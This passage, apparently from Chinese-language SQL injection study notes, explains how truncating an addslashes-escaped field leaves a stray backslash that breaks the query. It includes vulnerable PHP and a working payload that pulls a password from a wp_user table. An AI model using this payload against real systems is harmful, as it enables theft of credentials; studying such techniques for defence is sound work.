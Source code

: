 执行了命令之后所有库所有表都被锁定只读。此时操作表会报错

解锁的语句是`unlock tables`

**字符串截断**

```php
$title = addslashes($_GET['title']);//addslashes() 函数返回在预定义字符之前添加反斜杠的字符串
$title = substr($title, 0, 10);
$sql="INSERT INTO wp_news VALUES(2, '$title', '$content')";
```

变量title被截取过10个字符，如果输入`aaaaaaaaa'`，会自动转义成`aaaaaaaaa\'`，截取后结果变成`aaaaaaaaa\`

```php
INSERT INTO some_table VALUES(2, 'aaaaaaaaa\', '$content')
```

正好转义单引号，我们就可以在变量content中注入了，可以用VALUES注入

```php
?title=aaaaaaaaa'&content=,1,1),(3,4,(select pwd from wp_user limit 1),1)#
```

## 二次注入

以上类型都有可能
